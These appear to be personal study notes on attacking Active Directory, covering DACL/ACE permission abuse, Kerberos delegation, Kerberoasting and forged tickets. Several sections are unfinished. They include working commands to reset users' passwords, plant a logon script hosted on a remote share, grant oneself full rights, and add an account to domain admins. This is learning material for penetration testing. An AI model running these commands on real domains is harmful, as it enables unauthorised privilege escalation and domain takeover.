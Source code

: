 In this module we will exploit AD Object Permissions, Keberos Delegation and AD Trust - due to the complexity of the large org deployments there are always misconfigurations.

## AD Object Permissions
Users, Computers and groups are objects in AD with associated set of permissions. If permissions set incorrectly we can exploit them. 
#AD #permissions 

The object security is controlled by the **DACL** -Discretionary ACL which has the **ACE** - Access Control Enties. If multiple ACE, the order matters e.g. if deny first the access is denied. ACE is stored as **SDDL** - Security Descriptior Definition Lang, which has specific format.

```text
ace_type;ace_flags;rights;object_guid;inherit_object_guid:account_sid
```

This ACE would apply to account_sid on the object_guid with the specific rights: A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0.

**All authenticated users in AD can read AD Objects and their DACLs.** So once we compromise any AD user, we can perform the AD enum.

#powerview #dacl #enum 
We can use Powerview scripts for enum, like Get-ObjectAcl.
[[AD Enum - Powerview & Bloodhound#^f54063]]

It is a lengthy list of ACEs applied to the object, we need to look at **ActiveDirectoryRights, SecurityIdentifier, AceType**.
To read SecurityIdentifier (in this case we have access to the enumerated Identitity), we can call the following:
#powerview 
[[AD Enum - Powerview & Bloodhound#^ea8e3b]]

For lengthy DACL which affects our domain user, we can use the following oneliner to resolve the SID :
#powerview #enum #dacl
[[Oneliners - ps1#^d8fba8]]

#exploit-ad 
#### User
For **User** objects we can exploit the following ACE:
GenericAll, ExtendedRights (User-Force-Change-Password) GenericWrite, or WriteDACL

For **GenericAll and ExtendedRights** we can just change password:
#cmd
```cmd
net user <user> <pass> /domain
```

For **GenericWrite** we can add the logon script to the user:
#ps1 #powerview
```powershell
Set-DomainObject -Identity <user_name> -Set  @{"scriptPath" = "\\10.0.0.5\totallyLegitScript.ps1"}
```


For **WriteDACL** we grant ourselves ourselves **GenericAll** or **DCSync**:
#ps1 #powerview 
```powershell
Add-DomainObjectAcl -TargetIdentity <user_name> -PrincipalIdentity <our_user> -Rights All
```
All or DCSync

To exploit **DCSync**:
To-do: Link


#### Group
For **Group** we need: GenericAll, WriteProperty, GenericWrite, Self (Self-Membership), WriteOwner

For **GenericAll, WriteProperty, GenericWrite, Self (Self-Membership)*** we can just add ourselves to the group:
#cmd
```cmd
net group <group_name> <our_user> /add /domain
```
or with powerview:
#powerview #ps1
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

For **WriteOwner** we can add ourselves as owner:
#powerview #ps1 
```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

There is also the case where we have the WriteOwner + WriteDACL, link
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#writedacl-+-writeowner

#### Computer
For **Computers** when we have the GenericAll, GenericWrite and Write we can abuse the Kerb Resouce-based constrained delegation. 

To-do: Link

## GPO and OU Abuse

To-do. 


## Kerberos Delegation
Kerberos Double Hop issue - when there is a web app for all employee that uses Kerberos and pulls the data from the MSSQL in the backend. The employees access it, but only has sent the TGS to the Web Server, which cannot be reused. Kerberos Delegation solves this design issue. There are several implementionof this: Unconstrained delegation, contrained delegation and resource based constrained delegation (the last requires at least 2012 WIN Server). 
Kerberos Auth explained: [[Windows Post-exp#^6ade8c]]

#### Unconstrained Delegation

The difference in the Kerberos flow is that before the TGS is requested, the **Forwardable TGT** is requested. Then the client sends TGS with **Fordardable TGT**, which the server can reuse to communicate to backend-server as the user (by requesting more TGS). This introduces number of issues - the server can authenticate as the user to **any services** - because is has the forwardable TGT.

If we manage to compromise the service, we can compromise the user's TGTs - it can be high privileges domain user. We either need to compromise the app running (then we can use the Tickets - we can easly escalate to admin with impersonation) with the service account or do the lateral movement (compromise the server etc.)

To Enumerate unconstrained delegation we can use powerview:
#powerview #ps1 #enum

```powershell
Get-DomainComputer -Unconstrained
```
[[AD Enum - Powerview & Bloodhound#^660271]]
Once we have the Admin on the machine with Unconstrained Delegation, we can get the TGT and Pass-The-Ticket:
[[Windows Post-exp#^1a750f]]
then move laterally:
[[Windows LM]]

In some cases the privileged user can be added to the **Protected Group** which would not allow to delegate their tickets - but that would broke the app for them. 

If there is unconst delegation configured and the PrintSpooler service on DC is reachable over RDP from the compromised unconst delegation machine we may be able to get the DC machine account. 

#### Constrained Delegation


#### Rb Constrained Delegation


### Kerberoasting

User requested TGS are encrypted with the service (SPN) NTLM hash. It is because service must check this token and it checks it by decrypting with its own NTLM (which it knows). We as the Domain User having the TGT can request the TGS for the SPN to authenticate to the Service. Once we obtain the TGS we can crack it offline to crack the SPN password. 

### Silver Ticket

Once we obtain the service password or the service password hash we can forge any TGS for that service - silver ticket. In that way we can escalate our privilages in the context of the current service e.g. normal user on the database, database admin on the database.

### Golden Ticket

Once we have the NTLM hash of the krbtgt service (we can obtain that by the DCSync), we would be able to forge any TGT for any user, as each TGT is encrypted with the krbtgt service NTLM hash.




## AD Forrest










